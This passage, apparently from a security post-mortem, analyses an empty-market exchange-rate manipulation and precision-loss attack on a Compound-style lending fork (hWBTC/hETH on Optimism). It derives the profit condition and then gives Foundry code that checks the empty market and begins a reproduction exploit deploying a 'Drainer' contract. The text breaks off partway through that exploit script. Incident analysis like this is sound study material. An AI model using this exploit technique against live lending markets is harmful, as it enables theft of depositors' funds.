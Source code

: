 $$ amountOut > amountIn \tag{9} $$

Combining $(7),(8), (9)$, we can conclude that profit requires:

$$I \times (k + \frac{1}{T} - 1) > 0 \tag{10}$$

So, along with $I>0$, it must satisfy:

$$k + \frac{1}{T} - 1 > 0 \tag{11}$$

Obviously, when $k=1$, this condition is met. And when $k\neq 1$, the larger $T$ is, the larger $k$ needs to be.

In other words, when the attacker owns all the cTokens, they can meet the attack conditions. Otherwise, it depends on the current `cTokenSupply`, the more the totalSupply, the more share the attacker is required to occupy.

Therefore, it is obvious that when empty markets exist, this method of transferring a large amount of Underlying Tokens can be used to manipulate the `exchangeRate` and profit from precision loss.

Specifically, when an empty market is found, the attacker can `mint` cTokens, making $k=1$, and the additional profit the attacker can obtain using precision loss is:

$$profit = amountOut - amountIn = \frac{I}{T} \tag{12}$$

So, to gain more profit, the amount of funds $I$ transferred in should be larger, and the quantity of cTokens obtained after `mint`, i.e., $T$, should be smaller.

---

Now let's analyze the [hWBTC contract](https://optimistic.etherscan.io/address/0x35594e4992dfefcb0c20ec487d7af22a30bdec60) attacked.

``` solidity
function testEmpty() external {
    vm.createSelectFork("optimism", 89017326);
    uint256 totalSupply = hWBTC.totalSupply();
    console.log("empty market?", totalSupply == 0);
}
```

Querying the contract state before the attacker's action reveals that the `cTotalSupply` of this hWBTC contract is 0, indicating that the state complies with empty markets, thus enabling the attacker to launch the attack using precision loss.

## Exploit

### Reproduce

Based on the previous analysis, combined with the attack transaction, the following script can be used for attack. Here, we only focus on attacking hETH as an example.


``` solidity
function testExploit() external {
    uint256 blockNumber = 89017326; // before the attacker's first mint
    vm.createSelectFork("optimism", blockNumber);
    deal(address(WBTC), address(this), 800*1e8);
    deal(address(this), 0);  // https://twitter.com/TheBlockChainer/status/1727309850810392771
    console.log("before attack");
    emit log_named_decimal_uint("ETH balance", address(this).balance, 18);
    emit log_named_decimal_uint("WBTC balance", WBTC.balanceOf(address(this)), WBTC.decimals());

    uint256 _salt = uint256(keccak256(abi.encodePacked(uint256(0))));
    bytes memory bytecode = type(Drainer).creationCode;
    bytes memory contractBytecode = abi.encodePacked(bytecode, abi.encode(address(hEther)));
    address DrainAddress = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xff), address(this), _salt, keccak256(contractBytecode))))));

    WBTC.transfer(DrainAddress, WBTC.balanceOf(address(this)));
    Drainer drainer = new Drainer{salt: bytes32(_salt)}(hEther);  // drain the hETH pool
```